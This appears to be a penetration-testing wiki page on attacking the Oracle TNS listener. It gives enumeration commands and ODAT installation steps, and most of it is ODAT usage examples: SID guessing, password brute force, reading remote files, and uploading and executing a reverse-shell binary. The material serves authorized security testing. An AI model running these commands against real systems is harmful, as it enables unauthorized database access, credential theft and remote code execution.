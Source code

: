 # Port 1521,1522-1529 - Oracle TNS Listener

## Enumeration

### Basic

```bash
nmap --script "oracle-tns-version" -p 1521 -T4 -sV <IP>
msf> use auxiliary/scanner/oracle/tnslsnr_version
#apt install tnscmd10g
tnscmd10g version -p 1521 -h <IP>
```



## ODAT&#x20;

**ODAT** (Oracle Database Attacking Tool) is an open source **penetration testing** tool that tests the security of **Oracle Databases remotely**.

Usage examples of ODAT:

* You have an Oracle database listening remotely and want to find valid **SIDs** and **credentials** in order to connect to the database
* You have a valid Oracle account on a database and want to **escalate your privileges** to become DBA or SYSDBA
* You have a Oracle account and you want to **execute system commands** (e.g. **reverse shell**) in order to move forward on the operating system hosting the database

Tested on Oracle Database **10g**, **11g**, **12c**, **18c** and **19c**.

{% embed url="https://github.com/quentinhardy/odat" %}

### Instalation

```bash
git clone https://github.com/quentinhardy/odat.git

cd odat/
git submodule init
git submodule update
```

* Get instant client basic, sdk (devel) and sqlplus from the Oracle web site:
  * X64: [http://www.oracle.com/technetwork/topics/linuxx86-64soft-092277.html](http://www.oracle.com/technetwork/topics/linuxx86-64soft-092277.html)
  * X86: [http://www.oracle.com/technetwork/topics/linuxsoft-082809.html](http://www.oracle.com/technetwork/topics/linuxsoft-082809.html)

```
sudo apt-get install libaio1 python3-dev alien python3-pip
pip3 install cx_Oracle

mv /home/kali/downloads/*.rm .
sudo alien --to-deb *.rpm
dpgk -i *
```

Add to .zshrc

```bash
export ORACLE_HOME=/usr/lib/oracle/19.3/client64/
export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
export PATH=${ORACLE_HOME}bin:$PATH
```



### Usage examples



{% code overflow="wrap" %}
```python
# SID Enumeration
python3 odat.py sidguesser -s <IP-ADDRESS>

# User/Pass bruteforce
python3 odat.py passwordguesser -s <IP> -d <SID>
python3 odat.py passwordguesser -s <IP> --accounts-file <wordlist> -d <SID>

# Get remote/put files
python3 odat.py utlfile --getFile 'C:/Windows/System32/drivers/etc' hosts hosts  -s <IP> -d <SID> -U <username > -P <password> [--sysdba]

python3 odat.py utlfile --putFile 'C:/Windows/System32' rev.exe rev.exe -s <IP> -d <SID> -U <username> -P <password> [--sysdba]

# Execute remote file
python3 odat.py externaltable --exec 'C:/Windows/System32' rev.exe 
```
{% endcode %}
